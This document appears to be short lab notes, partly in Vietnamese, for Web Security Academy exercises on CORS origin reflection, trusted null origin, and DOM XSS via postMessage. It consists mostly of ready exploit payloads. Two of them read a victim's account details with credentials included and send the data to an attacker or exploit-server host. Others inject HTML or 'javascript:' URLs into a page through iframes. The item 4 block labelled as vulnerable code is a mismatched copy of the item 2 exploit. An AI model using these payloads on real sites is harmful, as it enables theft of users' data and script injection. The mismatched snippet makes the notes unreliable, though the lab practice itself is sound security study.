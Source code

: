 
1.CORS vulnerability with basic origin reflection
```js
<script>
fetch('https://vuln.web-api', {credentials:'include'})
  .then(r => r.text())
  .then(data => {
    return fetch('attacker_server/?api=' + encodeURIComponent(data));
  });
</script>
```

2.CORS vulnerability with trusted null origin
Exploit server:
```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
    fetch('https://0acf00e103f197518005122e006b004f.web-security-academy.net/accountDetails', {credentials:'include'}) .then(r => r.text()) .then(data => { return fetch('https://exploit-0ac40095035497ba80b3113d01f50035.exploit-server.net/?api=' + encodeURIComponent(data)); });
  </script>"
></iframe>;
```

3.DOM XSS using web messages
Đoạn mã có lỗ hổng
```js
<script>
	window.addEventListener('message', function(e) {
		document.getElementById('ads').innerHTML = e.data;
	})
</script>
```
Hướng tấn công là từ trang exploit của kẻ tân công tạo 1 iframe và thực hiện gửi messages chứa nội dung nguy hiểm
```js
<iframe
  src="vulnsite"
  onload="this.contentWindow.postMessage('<img src=x onerror=print()>','*')"
></iframe>
```

4.DOM XSS using web messages and a JavaScript URL
Đoạn mã có lỗ hỏng
```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
    fetch('https://0acf00e103f197518005122e006b004f.web-security-academy.net/accountDetails', {credentials:'include'}) .then(r => r.text()) .then(data => { return fetch('https://exploit-0ac40095035497ba80b3113d01f50035.exploit-server.net/?api=' + encodeURIComponent(data)); });
  </script>"
></iframe>
```
Payload
```js
<iframe
  src="vulnsite"
  onload="this.contentWindow.postMessage('javascript:print();//https:','*')"
></iframe>
```

5.DOM XSS using web messages and `JSON.parse`
Kịch bản không khác case 3 và 4. 
```js
<iframe src='vulnsite' onload="this.contentWindow.postMessage(
  JSON.stringify({
    type: 'load-channel',
    url: 'javascript:print()'
  }),
  '*'
);">
</iframe>
```